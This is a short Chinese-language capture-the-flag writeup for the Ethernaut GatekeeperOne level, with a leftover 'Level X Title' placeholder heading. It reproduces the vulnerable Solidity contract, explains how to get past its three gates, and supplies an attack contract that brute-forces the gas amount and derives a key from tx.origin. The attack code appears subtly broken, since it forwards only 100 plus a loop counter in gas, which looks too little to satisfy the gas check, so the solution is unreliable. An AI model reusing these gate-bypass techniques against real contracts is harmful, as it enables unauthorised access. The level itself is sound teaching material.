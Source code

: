 # Ethernaut CTF Writeup

## Level X Title

> 題目: https://ethernaut.openzeppelin.com/level/0x08D4Eb7480fd97C6799De7D29808D5E93674CE99

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

過關條件: 

- 跨越守衛的守衛並且註冊成為參賽者

解法：

- 通過 `gateOne()`: 交互者要為另一個合約
- 通過 `gateTwo()`: 使剩餘的 gas 數量為 8191 整數倍，需要在發送交易時嘗試不同的 gas 數量
- 通過 `gateThree()`: 根據 `tx.origin` 值計算出一把符合條件的 gatekey `bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;`
```
contract GateKeeperAttack{

    GatekeeperOne public target;
    constructor(address _targetAddress) {
        target = GatekeeperOne(_targetAddress);
    }

    function attack() public {
        bytes8 _gateKey =  bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 8191; i++) {
            (bool success, ) = address(target).call{gas: 100 + i}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
            if (success) {
                break;
            }
        }
    }
}
```